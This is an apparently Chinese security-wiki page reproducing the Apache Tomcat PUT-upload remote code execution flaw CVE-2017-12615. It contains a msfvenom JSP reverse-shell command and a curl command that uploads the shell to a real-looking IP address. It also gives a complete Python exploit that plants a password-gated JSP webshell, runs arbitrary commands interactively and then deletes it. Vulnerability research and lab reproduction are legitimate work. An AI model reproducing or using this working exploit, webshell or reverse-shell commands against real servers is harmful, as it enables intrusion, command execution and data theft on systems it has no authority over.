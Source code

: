 # Apache Tomcat 远程代码执行漏洞 CVE-2017-12615

## 漏洞描述

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞(CVE-2017-12615)。当 启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

## 影响版本

> [!NOTE]
>
> Apache Tomcat 7.0.0 - 7.0.81

## 环境搭建

```
https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:8080/ 正常即可

![](image/tomcat-1.png)

## 漏洞复现

漏洞产生的主要原因来自于**conf/web.xml**文件配置错误,readonly开启了false,导致可以使用**PUT/DELETE**请求方法操作文件

![](image/tomcat-3.png)

**msf**生成一个**jsp**木马

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

利用PUT方法上传木马

```
curl -v -X PUT --data-binary @shell.jsp "http://81.68.139.186:8080/shell.jsp/"
```

> [!NOTE]
>
> 注意 http://xxx.xxx.xxx.xxx:8080/shell.jsp/中的最后一个"/"字符很重要

发现成功上传木马文件

![](image/tomcat-4.png)

访问文件即可反弹一个shell

![](image/tomcat-5.png)

也可以使用**DELETE**请求方法删除文件

![](image/tomcat-6.png)

## 漏洞利用POC

> [!NOTE]
>
> 代码只用于检测漏洞，反弹shell参照上方

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Apache Tomcat 7.0.0 - 7.0.81                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2017-12615.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8080                            \033[0m')
    print('+  \033[36mCmd    >>> shell                                                  \033[0m')
    print('+  \033[36mCmd    >>> exit(退出交互并删除webshell)                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    md5_filename = str(random.randint(1,999)).encode("utf-8")
    file_name = hashlib.md5(md5_filename).hexdigest()
    vuln_put_url = target_url + "/" + file_name + ".jsp/"

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = """
    <%
    if("peiqi".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;          
        byte[] b = new byte[1024];                 
        while((a=in.read(b))!=-1){
            out.println(new String(b));          
        }
    } 
    %>
    """
    try:
        response = requests.request("PUT", url=vuln_put_url, data=data, headers=headers, timeout=30)
        if response.status_code == 200 or 201:
            print("\033[32m[o] 含有CVE-2017-12615漏洞，成功上传shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
        sys.exit(0)

def POC_2(target_url, file_name, cmd):
    vuln_cmd_url = target_url + "/" + file_name + ".jsp?" + "pwd=peiqi&cmd=" + cmd
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_cmd_url, headers=headers,timeout=30)
        if response.status_code == 200:
            print("\033[32m[o] 成功执行命令,响应为:\n\033[0m",response.text)
        else:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)
    except:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)

def POC_3(target_url, file_name):
    vuln_delect_url = target_url + "/" + file_name + ".jsp/"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.request("DELETE", url=vuln_delect_url, headers=headers, timeout=30)
        if response.status_code == 200 or 201:
            print("\033[32m[o] 成功删除shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 删除失败 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 删除失败 \033[0m")
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_name = POC_1(target_url)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            POC_3(target_url, file_name)
            sys.exit(0)
        else:
            POC_2(target_url, file_name, cmd)

```

![](image/tomcat-7.png)